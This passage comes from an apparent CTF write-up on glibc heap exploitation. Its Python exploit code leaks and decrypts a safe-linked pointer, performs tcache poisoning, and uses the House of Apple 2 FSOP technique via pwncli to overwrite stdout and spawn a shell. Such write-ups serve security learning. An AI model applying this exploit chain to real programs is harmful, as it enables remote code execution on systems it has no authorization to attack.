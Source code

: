 ```python
# pad to leak forward pointer
edit(4, cyclic(0xA98 + 0x8))
# leak encrypted forward pointer
encrypted_ptr = extract_address(show(4)[0xA98 + 0x8:])
# decrypt forward pointer
dec = decrypt_ptr(encrypted_ptr)
# fix forward pointer
dec &= ~0xfff
dec += 0xd60
# recover encryption key
key = encrypted_ptr ^ dec
```

Let's quickly recap, we now have:
- Defeated ASLR
	- Top chunk corruption (overflow) to force chunks into unsorted bin
	- Pointer leak (overflow)
- Defeated Safe-Linking
	- Top chunk corruption (overflow) to force chunks into tcache bin
	- Pointer leak (overflow)
	- Recovered encryption key
- Established setup for tcache-poisoning

This means we now know where libc is located in memory and we are capable of writing to an arbitrary memory address through tcache-poisoning. 

### RCE Through FSOP

Equipped with arbitrary write I stumbled upon another blog post \[6\] detailing a technique called *House of Apple 2* discovered by CTF player [roderick01](https://bbs.kanxue.com/thread-273832.htm). The technique boils down to overwriting `stdout`'s vtable to `_IO_wfile_jumps`, manipulating the `_wide_data` and `_wide_vtable` pointers to controlled memory, and setting the `__doallocate` function pointer to the address of `system`. This should give us a shell. Fortunately for us, this rather complicated process is automated in the `pwncli` library by RoderickChan \[7\] so exploitation is straight-forward.

```python
from pwncli import io_file

file = io_file.IO_FILE_plus_struct()
payload = file.house_of_apple2_execmd_when_do_IO_operation(
        libc.sym["_IO_2_1_stdout_"],
        libc.sym["_IO_wfile_jumps"],
        libc.sym["system"])

# define target address
target = libc.sym["_IO_2_1_stdout_"]
# encrypt target address
target_enc = target ^ key

# overwrite next ptr
edit(4, 0xa98 * b"E" + p64(0x291) + p64(target_enc))
# first allocation
create(6, 0x288, 0x288 * b"G")
# second allocation at arbitrary pointer
create(7, 0x288, payload)

p.interactive()
```
